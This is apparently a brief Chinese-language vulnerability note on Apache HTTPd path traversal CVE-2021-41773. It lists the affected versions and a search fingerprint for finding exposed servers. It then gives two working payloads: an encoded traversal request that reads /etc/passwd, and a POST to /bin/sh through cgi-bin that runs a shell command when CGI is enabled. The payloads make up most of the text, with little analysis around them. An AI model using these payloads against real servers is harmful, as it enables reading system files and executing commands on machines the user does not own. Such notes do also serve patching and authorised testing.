 # Apache HTTPd 路径穿越漏洞 CVE-2021-41773

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件

## 漏洞影响

```
Apache HTTPd 2.4.49~2.4.50版本
```

## 网络测绘

```
server="Apache/2.4.49"
```

## 漏洞复现

Chorme插件Wappalyzer获取 Apache版本

![image-20220525155347737](images/202205251554093.png)

验证POC

```
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220525155515446](images/202205251555506.png)

开启CGI的情况下可RCE

```
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  
B=|id>/tmp/id_txt
```